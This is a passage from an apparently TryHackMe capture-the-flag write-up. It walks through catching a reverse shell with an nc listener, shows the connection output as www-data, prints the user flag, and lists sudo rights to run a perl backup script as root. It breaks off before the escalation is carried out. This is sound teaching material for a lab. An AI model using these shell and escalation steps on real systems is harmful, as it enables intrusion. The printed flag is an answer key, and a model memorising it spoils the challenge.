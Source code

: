 ![10](https://github.com/Knign/Write-ups/assets/110326359/18642722-a352-44f6-bd30-a074ed242da1)

Next, we have to set up a `nc` listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
```

Then we can visit the `/content/attachment/` page to access our exploit.

![11](https://github.com/Knign/Write-ups/assets/110326359/a871a290-2820-4ca7-a921-bb7b0d0fb63c)

Let's check our listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.37.233] 60656
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 07:02:32 up  1:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We can now `cat` out the user flag.

```
$ cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

### Answer
```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

### What is the root flag?

Let's check what commands our user can execute as root using the `sudo -l` command.

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So we can run the `backup.pl` script as root without any password.

Let's check what the script does.
